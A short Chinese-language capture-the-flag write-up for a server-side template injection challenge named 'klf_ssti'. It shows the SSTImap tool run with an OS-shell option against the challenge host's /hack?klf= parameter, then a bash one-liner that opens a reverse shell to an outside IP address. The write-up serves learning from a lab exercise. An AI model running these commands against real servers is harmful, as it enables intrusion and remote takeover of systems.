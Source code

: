 ### klf\_ssti

页面源码中给了一个/hack路由，klf是参数，但初步测试没有效果

![](./images/1698934443-image.png)

这里推荐一个SSTImap工具，十分强大，还能直接模拟shell连接

[GitHub - vladko312/SSTImap: Automatic SSTI detection tool with interactive interface](https://github.com/vladko312/SSTImap)

```
D:\SSTImap-master>python sstimap.py -u  http://c6wgxl35yii5gu40b1oi0ob46.node.game.sycsec.com/hack?klf=1 --os-shell
```

检测出来是盲注，反应都会很慢，这里可以把shell反弹到自己的服务器上

```
bash -c "bash -i >& /dev/tcp/101.35.19.78/100 0>&1"
```

![](./images/1698934975-image.png)
